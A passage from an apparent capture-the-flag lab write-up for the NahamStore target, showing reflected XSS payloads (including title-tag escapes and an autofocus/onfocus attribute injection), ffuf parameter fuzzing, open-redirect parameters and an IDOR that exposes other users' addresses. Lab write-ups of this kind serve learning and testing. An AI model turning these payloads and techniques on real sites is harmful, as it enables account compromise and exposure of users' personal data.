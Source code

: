 ```
http://marketing.nahamstore.thm/?error=<script>alert(1)</script>
```


<br>

* In order for the XSS payload to work, we need to escape the \<title\> tag:

```
http://nahamstore.thm/product?id=2&name=Sticker Packtest</title><script>alert(1)</script>
```

<br>

* This was originally a POST request, but changing the method to a GET and including the parameters, the "discount" parameter vulnerable to XSS, the angle brackets were being removed, so the autofocus attribute can be used:


```
http://nahamstore.thm/product?id=2&add_to_basket=1&discount=12345%22+autofocus+onfocus=alert(1)+%22
```


<br><br><br>


#### Open Redirect


```
ffuf -u "http://nahamstore.thm/?FUZZ=test" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 4254
```

* After fuzzing for parameters the following was disclosed:

```
http://nahamstore.thm/?r=https://www.google.com
```

* Parameter named redirect_url:

```
POST /account/addressbook?redirect_url=http://10.6.44.219:8000
```


<br><br><br>


#### IDOR


* Changing the "address_id" parameter will return another user's address:

```
POST /basket HTTP/1.1
Host: nahamstore.thm
...

address_id=4
```
